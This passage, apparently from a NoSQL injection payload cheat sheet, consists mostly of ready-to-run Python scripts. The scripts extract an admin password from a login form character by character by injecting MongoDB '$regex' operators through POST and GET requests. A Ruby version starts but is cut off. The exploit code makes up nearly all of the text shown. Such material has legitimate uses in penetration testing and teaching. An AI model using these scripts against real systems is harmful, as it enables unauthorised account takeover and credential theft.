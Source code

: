 ```python
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c


```
### POST with urlencoded body
python script
```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='user=%s&pass[$regex]=^%s&remember=on' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302 and r.headers['Location'] == '/dashboard':
                print("Found one more char : %s" % (password+c))
                password += c


```
### GET
python script
```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload=f"?username={username}&password[$regex]=^{password + c}"
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print(f"Found one more char : {password+c}")
        password += c


```
ruby script
```ruby
require 'httpx'

username = 'admin'
```